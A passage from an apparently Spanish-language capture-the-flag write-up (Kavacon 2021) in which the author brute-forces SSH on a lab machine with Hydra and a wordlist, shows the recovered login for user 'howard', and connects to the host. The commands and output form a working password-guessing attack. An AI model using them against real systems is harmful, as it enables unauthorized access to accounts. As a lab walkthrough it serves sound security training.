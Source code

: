 Nuestra herramienta para este punto será "Hydra". Herramienta por excelencia entre muchas para este tipo de pruebas.

Como al primer intento de "Howard" no fue exitoso, probamos nuevamente pero con todo el usuario en minúsculas. Es muy común que se presenten situaciones donde el usuario sea todo con mayúsculas, todo con minúsculas, o con la primera letra en mayúscula y el resto en minúscula. Esas opciones al considerarlas para múltiples usuarios, podría llegar a obligarnos a crear un diccionario con usuarios para poder optimizar tiempo. En esta oportunidad, como es uno solo, podríamos indicarlo directamente en la sintaxis de la herramienta.

```bash
hydra -l howard -P 50_nombres.txt ssh://10.4.4.110:2222
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-20 19:40:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50 login tries (l:1/p:50), ~4 tries per task
[DATA] attacking ssh://10.4.4.110:2222/
[2222][ssh] host: 10.4.4.110   login: howard   password: LUGALABDUBUR
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-20 19:40:31
```

HABEMUS CREDENCIALES VÁLIDAS!!

- Usuario: howard
- Contraseña: LUGALABDUBUR

Las probamos de inmediato tratando de conectarnos por el servicio y ...

```bash
ssh howard@10.4.4.110 -p 2222
howard@10.4.4.110's password: 
Linux necronomicon 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
howard@necronomicon:~$
```

ESTAMOS DENTRO DE LA MÁQUINA!! \o/

Disclaimer2: la felicidad solo dura un momento porque la flag no se encuentra acá.

![Untitled](/assets/images/content/CTF/Kavacon-2021/dejame/Untitled%2012.png){: .align-center}
